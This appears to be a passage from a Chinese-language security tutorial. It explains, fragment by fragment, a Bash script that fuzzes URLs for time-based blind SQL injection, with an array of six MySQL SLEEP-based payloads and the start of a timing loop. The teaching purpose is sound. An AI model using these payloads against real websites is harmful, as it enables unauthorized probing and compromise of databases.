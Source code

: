 ```
 #!/usr/bin/env bash
check_dependencies() {
    for cmd in curl parallel; do
        if ! command -v $cmd &> /dev/null; then
            echo "$cmd could not be found. Please install it."             exit 1
        fi
    done
}
```

`print_usage` 函数包含脚本的使用说明：

```
 print_usage() {
    echo "Usage: $0 -u URL -c COOKIE_HEADER"
    echo "       $0 -f URL_FILE -c COOKIE_HEADER"
    echo "URL must contain 'FUZZ' where payloads should be inserted." }
```

在脚本的另一部分，如果没有提供正确的命令行参数，它会调用此函数，并打印使用说明。

`perform_sql_test` 函数设置了两个局部变量并将它们初始化为传递的两个函数参数：

```
 perform_sqli_test() {
    local url=$1
    local cookie_header=$2
```

在以下代码中，我们确保 URL 包含 `FUZZ` 以便插入有效负载；否则，打印错误信息并退出：

```
 if [[ $url != *"FUZZ"* ]]; then
        echo "Error: URL must contain 'FUZZ' where payloads should be inserted."         print_usage
        exit 1
    fi
```

这里我们定义一个 SQL 注入有效负载的数组：

```
 local payloads=(
        "(SELECT(0)FROM(SELECT(SLEEP(7)))a)"
        "'XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z"
        "' AND (SELECT 4800 FROM (SELECT(SLEEP(7)))HoBG)--"
        "if(now()=sysdate(),SLEEP(7),0)"
        "'XOR(if(now()=sysdate(),SLEEP(7),0))XOR'Z"
        "'XOR(SELECT CASE WHEN(1234=1234) THEN SLEEP(7) ELSE 0 END)XOR'Z"
    )
```

在以下代码中，我们循环遍历有效负载数组：

```
 for payload in "${payloads[@]}"; do
        start_time=$(date +%s)
```
